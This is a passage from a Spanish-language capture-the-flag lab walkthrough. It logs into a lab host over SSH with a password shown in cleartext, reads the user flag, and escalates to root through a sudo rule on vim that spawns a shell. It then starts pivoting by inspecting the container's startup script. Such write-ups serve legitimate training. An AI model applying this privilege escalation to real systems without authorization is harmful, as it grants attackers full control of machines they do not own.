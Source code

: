Aunque por ahora no es necesario usarla, es una información valiosa para futuro.

Ejecuto el alias para conectarme a la máquina de `rafael` y encuentro la primera flag.

```terminal
tom@thlcpptv16:~$ ssh rafael@172.101.0.5
rafael@172.101.0.5's password: Zds18Blt5iWY006ZaTpMclE1

rafael@rafael:~$ id
uid=1000(rafael) gid=1000(rafael) groups=1000(rafael)

rafael@rafael:~$ cat user.txt 
```

---
### Escaping Docker
#### Privilege Escalation

Verifico mis privilegios y descubro que el usuario `rafael` puede ejecutar `/usr/bin/vim` sin necesidad de contraseña.

```terminal
rafael@rafael:~$ sudo -l
Matching Defaults entries for rafael on rafael:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User rafael may run the following commands on rafael:
    (ALL) NOPASSWD: /usr/bin/vim
```

Consulto [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) para confirmar la técnica de explotación con `vim`. Y aprovecho este permiso para lanzar una shell con privilegios de `root`.

```terminal
rafael@rafael:~$ sudo vim -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
```

---
#### Pivoting

Dentro del directorio `root` del sistema, encuentro dos archivos relevantes; `start.sh`, un script que inicia o configura el entorno y `tunnelRafael.conf`, un archivo que contiene la configuración típica de un túnel WireGuard.

```terminal
root@rafael:~# cat start.sh
#!/bin/bash

# Start the SSH service
service ssh start

# Keep the container running
tail -f /dev/null
```
